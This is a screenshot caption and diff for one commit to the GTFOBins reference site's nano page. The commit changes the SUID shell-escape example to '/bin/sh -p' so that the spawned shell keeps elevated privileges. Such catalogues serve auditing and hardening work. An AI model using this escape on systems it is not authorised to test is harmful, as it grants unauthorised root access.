

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/nano.md, in a window 1280 px wide. Shown: the part 1366-1582 px from the top of the page, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

```diff
--- a/_gtfobins/nano.md
+++ b/_gtfobins/nano.md
@@ -20,8 +20,8 @@ functions:
   limited-suid:
     - description: The `SPELL` environment variable can be used in place of the `-s` option if the command line cannot be changed.
       code: |
-        ./nano -s /bin/sh
-        /bin/sh
+        ./nano -s "/bin/sh -p"
+        /bin/sh -p
         ^T
   sudo:
     - code: |
```
